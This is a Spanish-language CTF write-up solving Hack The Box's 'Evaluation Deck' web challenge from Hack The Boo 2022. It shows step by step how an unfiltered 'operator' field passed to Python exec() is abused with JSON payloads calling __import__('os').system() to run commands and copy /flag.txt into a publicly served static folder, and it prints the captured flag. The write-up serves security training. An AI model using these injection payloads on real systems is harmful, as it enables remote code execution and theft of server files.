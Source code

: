 ```yaml
---
title: Hack The Boo 2022 - Evaluation Deck
layout: post
description: La resolución del reto "Evaluation Deck" del CTF "Hack The Boo 2022" organizado por Hack The Box.
tags:
- HackTheBox
- EvaluationDeck
- ctf
- post
- writeups
---
```

# Descripción
---

A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

# Solución
---

El primer reto web del CTF nos presenta con un fantasma al que debemos derrotar seleccionando pares de cartas.

![](/images/images-hacktheboo2022/ed-1.png)

Tenemos un contador de turnos que disminuye por cada carta que elegimos, y también tenemos la vida del fantasma.

![](/images/images-hacktheboo2022/ed-2.png)

Si se nos acaban los turnos nos muestra una pantalla de "game over".

![](/images/images-hacktheboo2022/ed-3.png)

Si ganamos nos muestra una pantalla de "victory". 

Estas serían todas las funcionalidades de la aplicación web.

![](/images/images-hacktheboo2022/ed-4.png)

Muy entretenido el juego xD, pero necesitamos buscar una forma de conseguir la flag y no hemos encontrado ningún **input** donde podamos inyectar comandos, comillas o simbolos raros con el fin de romper algo. Por suerte el reto nos entrega el código fuente con un **dockerfile** para poder replicar la aplicación de manera local y así agilizar todo el testing.

Leyendo el archivo **Dockerfile** podemos saber que la flag se encuentra en `/flag.txt` y que la aplicación se encuentra en `/app`. Si queremos ver una imagen `card1.png` la ruta absoluta a esa imagen en el servidor es `/app/application/static/images/card1.png`, esta información nos servirá más tarde.

![](/images/images-hacktheboo2022/ed-5.png)

Leyendo el código nos encontramos con el uso de las funciones `compile()` y `exec()`, estas son funciones de python que pueden llegar a ser muy peligrosas.

![](/images/images-hacktheboo2022/ed-18.png)

Estas funciones se ejecutan cuando realizamos una petición a la ruta `/get_health` con el método `POST`.

![](/images/images-hacktheboo2022/ed-7.png)

Entendiendo el código vemos que primero debemos enviar un json, y después de comprobar que los datos son json la aplicación toma los valores de `current_health`, `attack_power` y `operator`. Es decir que nuestra petición debería verse así:

```perl
{
   "current_health": "algún valor",
   "attack_power": "algún valor",
   "operator": "algún valor"
}
```

En la tercera parte vemos que estos 3 valores se pasan directamente a la función `compile()` sin ningún filtro y el resultado de esto será ejecutado por la función `exec()`. Notamos que `current_health` y `attack_power` están dentro de una función `int()`, por lo tanto, estos dos valores solo pueden ser números. No podremos inyectar nada malicioso en estas dos variables o tendremos un error.

Así empezamos a construir nuestra inyección de comandos.

```perl
{
    "current_health": 10,
    "attack_power": 10,
    "operator": "inyección de comandos"
}
```

![](/images/images-hacktheboo2022/ed-8.png)

Para armar nuestras peticiones y probarlas en la aplicación web de forma más cómoda usaremos Postman.

Primero indicaremos la URL donde se encuentra la función que llamó nuestra atención anteriormente, cambiaremos el método a POST y agregaremos una nueva cabecera con el key `Content-Type` y el value `application/json`.

![](/images/images-hacktheboo2022/ed-35.png)

Vamos a la pestaña **Body** y cambiamos la opción de **none** a **raw** donde pegaremos el payload que creamos anteriormente.

```perl
{
    "current_health": 10,
    "attack_power": 10,
    "operator": "inyección de comandos"
}
```
Después de pegar nuestro payload haremos click en el botón **Send**.

![](/images/images-hacktheboo2022/ed-23.png)

Vemos que la petición falló basicamente porque el comando que construimos `10 inyección de comandos 10` no significa nada y produce un error.

![](/images/images-hacktheboo2022/ed-24.png)

Si ahora modificamos el valor de operator por una suma y le damos al botón de **Send** deberiamos obtener una respuesta correcta.

![](/images/images-hacktheboo2022/ed-25.png)

El comando que construimos es `10 + 10` y el servidor nos responde con un `20`.

![](/images/images-hacktheboo2022/ed-26.png)

Buscando formas de injectar comando en una función `exec()` me encuentra con esta página de HackTricks [Link de la página](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#eval-ing-python-code)

Ingresamos el primer payload para ejecutar comandos.

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('ls') +"
}
```

![](/images/images-hacktheboo2022/ed-27.png)

El servidor no nos arroja ningún error, pero tampoco podemos ver el output del comando.

![](/images/images-hacktheboo2022/ed-28.png)

La primera idea que tuve fue copiar y pegar la flag dentro de la carpeta del proyecto y así poder verla desde la página web con el siguiente comando:

```bash
cp /flag.txt > /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('cp /flag.txt > /app/application/static/flag.txt') +"
}
```

![](/images/images-hacktheboo2022/ed-29.png)

Ahora el servidor no nos responde con 20, si no con 276, esto es porque suma el código de salida del comando. Si el comando se ejecutó correctamente el código de salida es 0, si ocurre algún error el número será mayor a 0. Podemos deducir que el comando falló.

![](/images/images-hacktheboo2022/ed-30.png)

Si vamos a la dirección donde supuestamente copiamos la flag no encontraremos nada.

![](/images/images-hacktheboo2022/ed-31.png)

Lo que hice fue crear un archivo llamado `flag.txt`.

```bash
touch /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('touch /app/application/static/flag.txt') +"
}
```

Notamos que el comando se ejecutó correctamente ya que el resultado es 20, porque `10 + (código de estado del comando) + 10` es `20`.

![](/images/images-hacktheboo2022/ed-32.png)

Después ejecuté el comando `cat` a la flag y redirigí el output al archivo que creé.


```bash
cat /flag.txt > /app/application/static/flag.txt
```

```perl
{
   "current_health": 10,
   "attack_power": 10,
   "operator": "+  __import__('os').system('cat /flag.txt > /app/application/static/flag.txt') +"
}
```

![](/images/images-hacktheboo2022/ed-33.png)

Ejecutamos una petición GET al archivo donde acabamos de pegar el contenido de la flag `/static/flag.txt` y así obtenemos la flag.

![](/images/images-hacktheboo2022/ed-34.png)


# Flag
---

`HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}`
